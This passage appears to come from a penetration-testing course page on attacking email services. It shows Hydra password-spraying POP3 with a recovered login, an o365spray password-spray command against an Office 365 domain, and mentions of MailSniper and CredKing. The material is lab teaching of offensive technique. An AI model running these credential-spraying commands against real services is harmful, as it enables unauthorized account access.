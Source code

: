 ```shell-session
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```

---

## Password Attacks

We can use `Hydra` to perform a password spray or brute force against email services such as `SMTP`, `POP3`, or `IMAP4`. First, we need to get a username list and a password list and specify which service we want to attack. Let us see an example for `POP3`.

#### Hydra - Password Attack

Attacking Email Services

```shell-session
frank-106@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to perform password spray using tools like `Hydra`, but these tools are usually blocked. We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta. Keep in mind that these tools need to be up-to-date because if the service provider changes something (which happens often), the tools may not work anymore. This is a perfect example of why we must understand what our tools are doing and have the know-how to modify them if they do not work properly for some reason.

#### O365 Spray - Password Spraying

Attacking Email Services

```shell-session
frank-106@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
```
